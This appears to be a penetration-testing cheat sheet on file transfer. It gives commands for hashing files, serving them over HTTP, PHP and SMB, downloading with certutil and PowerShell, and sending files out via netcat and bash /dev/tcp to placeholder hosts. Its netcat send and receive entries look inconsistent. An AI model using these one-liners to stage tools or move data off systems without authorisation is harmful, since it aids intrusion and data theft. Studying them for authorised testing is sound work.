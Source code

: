 ```yaml
---
icon: arrow-right-arrow-left
---
```


# File Transfer

## Integrity check

{% tabs %}
{% tab title="Linux" %}
{% code overflow="wrap" %}
```batch
md5sum <file>
```
{% endcode %}
{% endtab %}

{% tab title="Windows" %}
{% code overflow="wrap" %}
```batch
certutil -hashfile <file> md5
```
{% endcode %}
{% endtab %}
{% endtabs %}

## HTTP/PHP

### HTTP Server

{% tabs %}
{% tab title="Python3" %}
```
python3 -m http.server <port>
```
{% endtab %}

{% tab title="Python2" %}
```
python2 -m SimpleHTTPServer <port>
```
{% endtab %}

{% tab title="PHP" %}
```
php -S 0:<port>
```
{% endtab %}
{% endtabs %}

### Download

{% tabs %}
{% tab title="Wget" %}
{% code overflow="wrap" %}
```bash
wget <url>
```
{% endcode %}
{% endtab %}

{% tab title="Curl" %}
{% code overflow="wrap" %}
```bash
curl -s <url> -o <output>
```
{% endcode %}
{% endtab %}

{% tab title="PowerShell" %}
{% code overflow="wrap" %}
```powershell
(New-Object Net.WebClient).DownloadString('<url>') > <output>
```
{% endcode %}
{% endtab %}

{% tab title="CMD" %}
{% code overflow="wrap" %}
```batch
certutil -urlcache -split -f <url> <output>
```
{% endcode %}
{% endtab %}
{% endtabs %}

## SMB

### SMB Server

```bash
smbserver.py <share> $(pwd) -smb2support [-username user -password pass]
```

### Download

{% tabs %}
{% tab title="Linux" %}
{% code overflow="wrap" %}
```bash
smbclient -U 'user[%pass]' //<ip>/<share> -c "get <file> <output>"
```
{% endcode %}
{% endtab %}

{% tab title="Windows" %}
{% code overflow="wrap" %}
```powershell
# mount smb Share to drive
net use z: \\<ip>\<share> [/user:user pass]
# copy from share
copy \\<ip>\<share>\<file> <output>
```
{% endcode %}
{% endtab %}
{% endtabs %}

## Netcat

{% tabs %}
{% tab title="Send" %}
{% code overflow="wrap" %}
```bash
nc -nlvp <port> < <file>
```
{% endcode %}
{% endtab %}

{% tab title="Recieve" %}
{% code overflow="wrap" %}
```bash
nc -nlvp <port> > <output>
```
{% endcode %}
{% endtab %}
{% endtabs %}

## Bash

{% tabs %}
{% tab title="Send" %}
{% code overflow="wrap" %}
```bash
cat <file> > /dev/tcp/<ip>/<port>
```
{% endcode %}
{% endtab %}

{% tab title="Recieve" %}
{% code overflow="wrap" %}
```bash
cat < /dev/tcp/<target>/<port> > <output>
```
{% endcode %}
{% endtab %}
{% endtabs %}
